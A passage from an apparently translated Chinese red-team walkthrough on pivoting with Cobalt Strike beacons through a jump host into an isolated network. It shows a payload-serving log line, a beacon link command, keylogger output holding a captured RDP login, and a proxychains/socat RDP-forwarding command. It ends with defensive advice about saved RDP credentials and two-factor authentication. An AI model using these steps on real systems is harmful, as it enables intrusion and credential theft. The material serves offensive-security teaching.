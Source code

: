 当我们的目标用户登录时，我们可以在日志中看到命中信息：

```
09/02 14:19:45 visit from: 178.62.56.134 Request: GET /smb page Serves /opt/cobaltstrike/uploads/beacon.ps1 null
```

现在我们可以link到这个beacon。



```
beacon&gt; link 10.0.0.100 
[+] established link to child beacon: 10.0.0.100
```

[![](https://p0.ssl.qhimg.com/t01c6529f111ca50f1b.jpg)](https://p0.ssl.qhimg.com/t01c6529f111ca50f1b.jpg)

<br>

**六、跳转到秘密网络**

****

以跳转主机为据点，我们需要掌握进入秘密网络的具体方法。

其实我们可以用键盘记录器窃取所需的信息，如下所示：



```
beacon&gt; keylogger 1816 x64
Start menu
remo
Remote Desktop Connection
172.16.0.10
Windows Security
SECRETrasta_mouse[tab]Passw0rd!
```

接下来执行如下操作：

停止Beacon上的SOCKS代理服务，同时也停止Teamserver上的proxychains、socat。

在跳转主机上开启新的SOCKS代理服务（可以使用相同的端口）。

在Teamserver上，运行

```
proxychains socat TCP4-LISTEN:3389,fork TCP4:172.16.0.10:3389
```

命令。

与前面的操作一样，使用RDP访问Teamserver IP，最终我们就可以登录到秘密网络中。

[![](https://p1.ssl.qhimg.com/t01c04f40df5a44737a.jpg)](https://p1.ssl.qhimg.com/t01c04f40df5a44737a.jpg)



**七、总结**

****

简而言之，永远不要保存RDP凭据信息，始终在跳转主机上使用双因素认证，DPAPI并不能提供足够的防护。


